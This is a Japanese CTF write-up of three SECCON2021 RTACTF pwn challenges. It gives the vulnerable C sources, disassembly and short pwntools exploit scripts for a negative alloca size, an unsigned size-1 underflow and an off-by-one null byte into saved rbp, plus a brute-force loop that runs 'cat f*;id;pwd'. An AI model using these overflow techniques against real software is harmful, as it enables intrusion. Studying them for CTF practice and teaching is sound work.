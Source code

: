 ```yaml
---
layout: page
title: "SECCON2021 RTACTF pwn"
date: 2021-12-19 00:00:00 -0000
---
```


<s>３問解いて、順位が２，２，４でした。</s>

おもちゃになっていたので消しておきます。そもそも順位でなくて時間が重要ですね。

# alloca

サイズチェックされいないためスタック書き放題ですが、そのサイズ分しか書き込めないようになっています。負数だろうと思い-1を入れると、いい感じにセグったので終わりました。

```c
int main() {
  int size;
  char *buf;

  /* Input size */
  printf("size: ");
  scanf("%d%*c", &size);

  /* Input data */
  printf("data: ");
  buf = alloca(size);
  readn(buf, size);

  return 0;
}
```

```python
r.sendlineafter(': ', '-1')
r.sendlineafter(': ', 'a'*40+p64(elf.sym.win))
```

気になったので、負数を入れると何が起きていたのかを見てみます。

まず最初のサイズは`rbp-0xc`に入ります。そこから`+8`されて、`+0xf`されて、`0x10`で割られて`0x10`かけられます。入力されたサイズ+8を16バイトでそろえて切り上げる処理ですね。そのあとで、先の値を0xfffffffffffff000でandを取ってスタックから引いて、目標値を設定します。ぱっと見は負数だろうがなんだろうが言われた通り引き算していて、安全そうに見えます。

```
   0x0000000000401261 <+29>:    lea    rax,[rbp-0xc]
=> 0x0000000000401265 <+33>:    mov    rsi,rax
   0x0000000000401268 <+36>:    lea    rdi,[rip+0xda4]        # 0x402013
   0x000000000040126f <+43>:    mov    eax,0x0
   0x0000000000401274 <+48>:    call   0x4010c0 <__isoc99_scanf@plt>
   0x0000000000401279 <+53>:    lea    rdi,[rip+0xd99]        # 0x402019
   0x0000000000401280 <+60>:    mov    eax,0x0
   0x0000000000401285 <+65>:    call   0x401080 <printf@plt>
   0x000000000040128a <+70>:    mov    eax,DWORD PTR [rbp-0xc]
   0x000000000040128d <+73>:    cdqe   
   0x000000000040128f <+75>:    lea    rdx,[rax+0x8]
   0x0000000000401293 <+79>:    mov    eax,0x10
   0x0000000000401298 <+84>:    sub    rax,0x1
   0x000000000040129c <+88>:    add    rax,rdx
   0x000000000040129f <+91>:    mov    esi,0x10
   0x00000000004012a4 <+96>:    mov    edx,0x0
   0x00000000004012a9 <+101>:   div    rsi
   0x00000000004012ac <+104>:   imul   rax,rax,0x10
   0x00000000004012b0 <+108>:   mov    rcx,rax
   0x00000000004012b3 <+111>:   and    rcx,0xfffffffffffff000
   0x00000000004012ba <+118>:   mov    rdx,rsp
   0x00000000004012bd <+121>:   sub    rdx,rcx
   0x00000000004012c0 <+124>:   cmp    rsp,rdx
   0x00000000004012c3 <+127>:   je     0x4012d7 <main+147>
   0x00000000004012c5 <+129>:   sub    rsp,0x1000
   0x00000000004012cc <+136>:   or     QWORD PTR [rsp+0xff8],0x0
   0x00000000004012d5 <+145>:   jmp    0x4012c0 <main+124>
   0x00000000004012d7 <+147>:   mov    rdx,rax
```

gdbで見てみると、入力サイズが`0xffffffff ffffffff`になり、ここに`+8`されて`7`になるため、これでスタックサイズが小さくなっていました。一方で直後の`readn(ptr, -1)`はintの端から端まで入るので、めでたくスタックに書き放題となります。

# noalloca

負数がはじかれるようになりました。何を思ったか、"きっと評価が4byteだろうから、0x100000000くらい入れたら上手くいくか"と思ってやってみたところ（たまたま）上手くいきました。

```c
int main() {
  unsigned size;
  char buf[0x80];

  /* Input size */
  printf("size: ");
  scanf("%d%*c", &size);
  if (size > 0x80) {
    puts("*** buffer overflow ***");
    return 1;
  }

  /* Input data */
  printf("data: ");
  readn(buf, size-1);

  return 0;
}
```

```python
r.sendlineafter(': ', '%d' % 0x100000000)
r.sendlineafter(': ', 'a'*152+p64(elf.sym.win))
```

これはかなり簡単で、`size`には0を入れれば良かったのです。`size`を0にすると、直後の`size-1`は大きな値になり、`readn`はこれまた書き放題になるという仕組みです。

`%d`は4バイトなので、4バイト以上を入れても受け付けません。しかし下位桁をオールゼロにしていたのでたまたま0が入って進んでいます。恐ろしく速い運の消費。

# constalloca

`alloca`に治安の良さそうな固定値が入りました。代わりに`readn`に不穏なnull terminateが追加されたrbpガチャ問です。2つの入力どちらかのoff-by-oneでrbpにnullが入り、`main`の最後に`ret`で抜けるとき一定確率で`content`の領域を指すようになります。

```c
void readn(char *ptr, int size) {
  /* Read data up to `size` bytes into `ptr` */
  for (int i = 0; i != size; i++, ptr++) {
    read(0, ptr, 1);
    if (*ptr == '\n') break;
  }
  *ptr = '\0'; // terminate by null
}

int main() {
  char title[0x18];
  char *content = alloca(0x80);

  /* Input title */
  printf("title: ");
  readn(title, 0x18);

  /* Input content */
  printf("data: ");
  readn(content, 0x80);

  return 0;
}
```

割と早い段階でソルバをwhileにして、retスレッドを用意してリモートぶっつけ本番としました。最後だけはかなり自信がありましたが4番。つよすぎる。ちなみにwinが一発起動なのでretスレッドは必要なく、winを並べた方がかしこいし早いです。

```python
def exp():
        r.sendafter(': ', 'A'*0x18)
        r.sendlineafter(': ', payload)
        r.sendline('cat f*;id;pwd')

rdi = 0x004013b3
payload = p64(rdi+1) * ((0x80/8)-1)
payload += p64(elf.sym.win)
while 1:
        r = start()
        exp()
        try:
                ret = r.recvuntil('\n')
                break
        except:
                r.close()
print ret
r.interactive()
r.close()
```

最初speendrunだから参加は見送りだったのですが、ボタンを押してからの秒数ということでぶっ続けでやる時間が確保できない状態でも参加できて、ライブで楽しめました。

運を使わずに解けるようにがんばりましょう。
